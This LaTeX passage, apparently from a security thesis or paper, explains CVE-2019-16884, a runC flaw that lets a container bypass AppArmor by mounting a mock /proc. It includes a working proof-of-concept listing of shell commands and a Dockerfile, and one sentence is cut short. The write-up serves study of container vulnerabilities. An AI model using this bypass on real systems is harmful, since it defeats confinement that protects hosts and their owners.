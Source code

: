 \subsection{CVE--2019--16884}
Because of a bug in runC (1.0.0-rc8 and older versions) it was possible to mount \lstinline{/proc} in a. Because the active AppArmor profile is defined in \lstinline{/proc/self/attr/apparmor/current}, this vulnerability allows a container to bypass AppArmor completely.

\hfill

A proof of concept has been provided at\cite{CVE-2019-16884-Github}. We see that if we create a very simple mock \lstinline{/proc}, the Docker starts without the specified AppArmor profile.
\begin{lstlisting}[caption={Bypass AppArmor by mounting \lstinline{/proc}},captionpos=b]
(host)$ mkdir -p rootfs/proc/self/{attr,fd}
(host)$ touch rootfs/proc/self/{status,attr/exec}
(host)$ touch rootfs/proc/self/fd/{4,5}
(host)$ cat Dockerfile
FROM busybox
ADD rootfs /

VOLUME /proc
(host)$ docker build -t apparmor-bypass .
(host)$ docker run --rm -it --security-opt "apparmor=docker-default"  apparmor-bypass
# container runs unconfined
\end{lstlisting}
